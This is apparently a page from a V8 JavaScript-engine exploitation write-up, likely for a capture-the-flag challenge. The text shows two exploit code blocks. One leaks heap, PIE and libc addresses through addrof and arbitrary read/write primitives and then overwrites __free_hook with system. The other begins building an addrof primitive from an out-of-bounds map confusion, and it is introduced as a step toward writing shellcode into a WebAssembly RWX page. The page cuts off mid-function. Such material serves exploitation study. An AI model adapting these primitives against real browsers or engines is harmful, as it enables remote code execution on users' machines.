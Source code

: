 ```javascript

var test_addr = addrof(test);
var map_ptr = arb_read(test_addr - 1n);
var map_sec_base = map_ptr - 0x2f79n;
var heap_ptr = arb_read(map_sec_base + 0x18n);
var PIE_leak = arb_read(heap_ptr);
var PIE_base = PIE_leak - 0xd87ea8n;

console.log("[+] test array: 0x" + test_addr.toString(16));
console.log("[+] test array map leak: 0x" + map_ptr.toString(16));
console.log("[+] map section base: 0x" + map_sec_base.toString(16));
console.log("[+] heap leak: 0x" + heap_ptr.toString(16));
console.log("[+] PIE leak: 0x" + PIE_leak.toString(16));
console.log("[+] PIE base: 0x" + PIE_base.toString(16));

puts_got = PIE_base + 0xd9a3b8n;
libc_base = arb_read(puts_got) - 0x809c0n;
free_hook = libc_base + 0x3ed8e8n;
system = libc_base + 0x4f440n;

console.log("[+] Libc base: 0x" + libc_base.toString(16));
console.log("[+] __free_hook: 0x" + free_hook.toString(16));
console.log("[+] system: 0x" + system.toString(16));

console.log("[+] Overwriting __free_hook to &system");
arb_write(free_hook, system);

console.log("xcalc")
```

Exploit for creating an RWX page using WebAssembly, overwriting it with shellcode to call `execve("/usr/bin/xcalc", ["/usr/bin/xcalc"], ["DISPLAY:=0"])`:
```javascript
/// Helper functions to convert between float and integer primitives
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) { // typeof(val) = float
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
}

function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

/// Construct addrof primitive
var obj = {"A":1};
var obj_arr = [obj];
var float_arr = [1.1, 1.2, 1.3, 1.4];
var obj_arr_map = obj_arr.oob();
var float_arr_map = float_arr.oob();

function addrof(in_obj) {
    // First, put the obj whose address we want to find into index 0
    obj_arr[0] = in_obj;

    // Change the obj array's map to the float array's map
    obj_arr.oob(float_arr_map);

    // Get the address by accessing index 0
```